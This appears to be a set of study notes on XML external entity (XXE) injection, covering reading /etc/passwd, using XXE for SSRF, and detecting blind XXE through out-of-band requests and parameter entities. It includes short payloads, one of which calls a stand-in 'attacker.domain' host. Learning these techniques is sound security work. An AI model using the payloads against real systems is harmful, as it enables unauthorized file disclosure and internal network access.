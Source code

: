 - here payload defines an external entity `&xxe;` whose value is `content of /etc/passwd` and uses the entity within the `productId` value, this cause application's response to induce the contents of the file.
- **Note:** ``With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.``

## EXPLOITING XXE to perform SSRF
- aside from retrieving data other main impact of `XXE` is , it can be used to perform `SSRF`. 
- for exploiting `XXE to SSRF` we need to define external entity using the URL that we want to target.
- for doing two way interaction we need to put `ENTITY ` in defined entity that returned in the application's response with out it will `Blind SSRF` but it also critical vuln.

```js
<!DOCTYPE root [ <!ENTITY DK SYSTEM "http://internal.domain/" > ]>
```

# Finding and EXploiting Blind XXE Vulnerabilities

## What is Blind XXE
- `BLIND XXE` vulnerabilities arises where the application is vulnerable to `XXE injection` but does not return the values of any defined external entities with in its responses. 
- i.e direct retrieval of the server-side files is not possible, and `blind xxe is harder than regular xxe`
- `How to exploit Blind XXE` 
	- trigger out-of-band network interaction.
	- trigger XML parsing errors in such a way that the error messages contain sensitive data.

## Detecting Blind XXE using Out-of-band (OAST)
- we need to define an external entity for triggering network interaction to our server.
```js
<!DOCTYPE root [<!ENTITY DK SYSTEM "http://data.ourdomain.com" >]>
```
and use it to valid defined entity in the data value in the `XML`

- sometimes `XXE attacks` using regular Entities are Blocked, due to some input validation by the application or some hardening of the XML parser that is being used.
- in this situation you might be able to use `XML parameter Entities` , it is special kind of Entities which can only be referenced elsewhere within the `DTD` 
- for this we only need 2 things
	1. declaration of an XML parameter entity include the `%` symbol before the entity name `` <!ENTITY % myparameter_entity "parameter value"> ``
	2. parameter Entities are referenced using the `%` character instead of usual `&` character: ``%myparameter_entity``
``Final Payload for XXE Blind using Parameter Entity payload``
```js
<!DOCTYPE root [<!ENTITY % DK SYSTEM "http://attacker.domain"> %DK; ]> 
```

